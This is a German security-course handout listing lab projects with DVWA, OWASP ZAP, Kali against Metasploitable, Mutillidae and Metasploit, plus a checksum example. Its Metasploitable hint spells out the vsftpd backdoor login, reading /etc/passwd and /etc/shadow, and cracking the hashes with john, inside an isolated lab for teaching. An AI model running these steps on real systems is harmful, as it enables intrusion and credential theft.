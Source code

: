 # Projekte: SEC

## +Abschlussprojekt: DVWA-OWASP-ZAP
OWASP-ZAP und DVWN

1. Installieren Sie OWASP-ZAP: 
		https://www.owasp.org/index.php/Main_Page
	DVWA:
		http://www.dvwa.co.uk/
	


	

## +Abschlussprojekt: KALI-Metasploitable
Installieren Sie als Virtuelle Maschinen
	1. KALI
	2. Metasploitable-linux-x.x.x.zip

Achten Sie darauf, dass diese von außen nicht erreichbar sind
	HOST-ONLY-ADAPTER

ad: 2. Metasploitable
	Eine Virtuelle Maschine zum Kaputtmachen
	
	http://blog.seibert-media.net/2012/10/24/metasploitable-virtuelle-maschine/
	
	

Vorgehen:
1. Zuerst die Foot-printing-Phase, dann 
2. die Scanning-Phase
3. die Dienste und Apps scannen

Hinweis: BACK-door and get user&passwords
	Es existiert ein ftp backdoor
	telnet 192.168.56.101 21
	user backdoor:)
	pass comein
	
	telnet 192.168.56.101 6200
	ps
	cat /etc/passwd
	cat /etc/shadow

	unshadow passwd shadow > unshadowed.txt
	john unshadowed.txt
	ssh -l msfadmin 192.168.56.101
	





## +Abschlussprojekt: NOWASP - Mutillidae
http://sourceforge.net/projects/mutillidae/
kann mit xampp installiert werden



Siehe auch: interessante Videos
http://www.youtube.com/user/webpwnized





Zusatz: sha1sum, md5sum ... erzeugen und überprüfen
http://www.thomas-krenn.com/de/wiki/Md5sum_und_sha1sum_zum_%C3%9Cberpr%C3%BCfen_von_Dateidownloads_verwenden


sha1sum datei.iso > datei.sh1


benutzer:~/Ordner$ ls
datei.iso  datei.md5

benutzer:~/Ordner$ md5sum datei.iso 
161a1957728be5d530c3fab67ac40652  datei.iso

benutzer:~/Ordner$ cat datei.md5 
161a1957728be5d530c3fab67ac40652  datei.iso

benutzer:~/Ordner$ md5sum -c datei.md5 
datei.iso: OK



## Weitere Zusätze
Metasploit
Gespeichert von Cyber-Labor am Do, 01/31/2013 - 13:02
Aktuelle Scans mit Metasploit der Firma Rapid 7

Millionen Geräte über UPnP angreifbar | Cyber-Labor.de - http://is.gd/Zde6Kg

Die für das Angriffsframework Metasploit bekannte Sicherheitsfirma Rapid7 hat bei einem IP-Scan aller möglichen IPv4-Adressen 40 bis 50 Millionen Netzwerkgeräte entdeckt, die man mit einem einzigen Datenpaket aus der Ferne kompromittieren könnte.




1.)
Installieren Sie das Programm Metasploit 
http://www.metasploit.com/download/

Metasploit ist ein mächtiges Programm, um Sicherheits-Lücken auf 
einzelnen Netzwerk-Maschinen zu finden. 

Sie sollten bereits jetzt das verkürzte Handbuch herunterladen und lesen 
https://community.rapid7.com/docs/DOC-1566


Aufgabe: Metasploit
-------------------
machen Sie sich mit dem Programm vertraut


